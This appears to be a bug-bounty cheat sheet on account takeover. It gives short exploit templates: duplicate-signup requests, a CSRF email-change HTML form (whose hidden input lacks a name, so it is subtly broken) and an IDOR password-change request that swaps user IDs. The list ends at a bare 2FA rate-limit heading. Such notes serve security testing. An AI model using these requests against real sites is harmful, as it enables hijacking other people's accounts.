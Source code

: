 ## Account Takeover

1. Using OAuth Misconfiguration
   - Victim has a account in evil.com
   - Attacker creates an account on evil.com using OAuth. For example the attacker have a facebook with a registered victim email
   - Attacker changed his/her email to victim email.
   - When the victim try to create an account on evil.com, it says the email already exists.

2. Try re-sign up using same email
```
POST /newaccount
[...]
email=victim@mail.com&password=1234
```
After sign up using victim email, try signup again but using different password
```
POST /newaccount
[...]
email=victim@mail.com&password=hacked
```
Source: [Link](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)

3. via CSRF
   - Create an account as an attacker and fill all the form, check your info in the Account Detail.
   - Change the email and capture the request, then created a CSRF Exploit.
   - The CSRF Exploit looks like as given below. I have replaced the email value to anyemail@*******.com and submitted a request in the victim’s account.

```html
<html>
<body>
   <form action="https://evil.com/user/change-email" method="POST">
      <input type="hidden" value="victim@gmail.com"/>
      <input type="submit" value="Submit Request">
   </form>
</body>
</html>
```
Source: [Link](https://medium.com/bugbountywriteup/account-takeover-via-csrf-78add8c99526)

4. Chaining with IDOR, for example
```
POST /changepassword.php
Host: site.com
[...]
userid=500&password=heked123
```
500 is an attacker ID and 501 is a victim ID, so we change the userid from attacker to victim ID

5. No Rate Limit on 2FA